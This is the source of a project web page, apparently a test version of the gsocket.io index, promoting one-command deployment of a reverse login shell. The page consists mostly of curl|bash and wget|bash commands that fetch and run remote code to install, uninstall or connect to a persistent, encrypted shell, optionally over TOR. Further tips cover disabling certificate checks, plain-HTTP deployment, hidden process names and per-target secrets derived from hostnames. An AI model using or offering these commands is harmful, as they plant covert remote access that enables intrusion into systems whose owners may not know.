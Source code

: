 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, and _access_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-init" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<!-- Use either one of these two commands to _install_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-install" id="curl-install" class="tab-switch" checked>
            <label for="curl-install" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-install" id="wget-install" class="tab-switch">
            <label for="wget-install" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div> -->

<!-- Use either one of these two commands to _uninstall_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-uninstall" id="curl-uninstall" class="tab-switch" checked>
            <label for="curl-uninstall" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-uninstall" id="wget-uninstall" class="tab-switch">
            <label for="wget-uninstall" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div> -->

<!-- Use either command to _access_ the remote host:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-access" id="curl-access" class="tab-switch" checked>
            <label for="curl-access" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-access" id="wget-access" class="tab-switch">
            <label for="wget-access" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div> -->

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<!-- Ignore SSL / Certificate warnings:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-ignore" id="curl-ignore" class="tab-switch" checked>
            <label for="curl-ignore" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-ignore" id="wget-ignore" class="tab-switch">
            <label for="wget-ignore" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div> -->

<!-- Deploy with a predefined secret:

```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:

```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget --no-verbose -O- gsocket.io/x)"
``` 

Deploy with a predefined secret. Try *curl* and fallback to *wget*:

```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget --no-verbose -O- gsocket.io/x)")
```
-->

<!-- Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages and using good old plain HTTP:

```
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
```
-->

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

```shell
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
```

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

```sh
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}
# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
```

```sh
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>
